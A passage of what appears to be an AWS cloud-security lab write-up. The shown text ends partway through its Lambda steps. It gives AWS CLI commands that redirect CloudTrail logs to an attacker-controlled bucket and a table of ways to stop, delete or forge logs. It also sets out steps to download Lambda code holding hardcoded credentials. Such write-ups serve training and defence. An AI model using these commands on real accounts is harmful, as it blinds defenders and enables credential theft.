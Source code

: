 6.  **Tamper with CloudTrail Settings:**
    If IAM permissions allow reconfiguring the logging (e.g., using `OverPrivilegedAdmin`):
    * **Change the S3 Bucket Destination:**
        ```bash
        aws cloudtrail update-trail \
        --name <trail-name> \
        --s3-bucket-name attacker-bucket # Attacker-controlled bucket
        ```
        * **Result:** All logs redirected to an attacker-controlled bucket, blinding defenders.

7.  **Persistence and Evasion:**
    * Used stolen credentials or newly created users after logs were disabled.
    * Focused on avoiding triggering new logs until normal logging was restored (if ever).

#### Summary of CloudTrail Exploitation:

| Phase       | Action                   | Command / Tool               | Goal                              |
| :---------- | :----------------------- | :--------------------------- | :-------------------------------- |
| **Recon** | List Trails              | `describe-trails`            | Identify logging setup            |
| **Audit** | Check Status             | `get-trail-status`           | See if logging is active          |
| **Log Access** | Read user actions        | `aws s3 ls/cp`               | View Logs                         |
| **Disable Logs** | Stop Logging / Delete Trail | `stop-logging` / `delete-trail` | Hide attacker activity            |
| **Tamper Logs** | Delete / Overwrite Logs  | `aws s3 rm/cp`               | Erase or forge records            |
| **Redirection** | Change Log Destination   | `update-trail`               | Redirect logs to attacker control |

---

## 1.5 Exploiting the Lambda Function Misconfiguration

The `SecretDisclosureFunc` Lambda function was targeted due to hardcoded credentials within its code.

1.  **Enumerate Lambda Functions:**
    Listed all Lambda functions using AWS CLI (assuming `OverPrivilegedAdmin` access):
    ```bash
    aws lambda list-functions
    ```
    * **Result:** Identified functions like `MySensitiveLambda`, `GetUserDetails`, `SecretDisclosureFunc`.

2.  **Download Function Code:**
    Downloaded the code package for `SecretDisclosureFunc`:
    ```bash
    aws lambda get-function --function-name SecretDisclosureFunc
    # From the output, get Code.Location (pre-signed S3 URL)
    wget "<Code.Location URL>"
    unzip function.zip
    ```
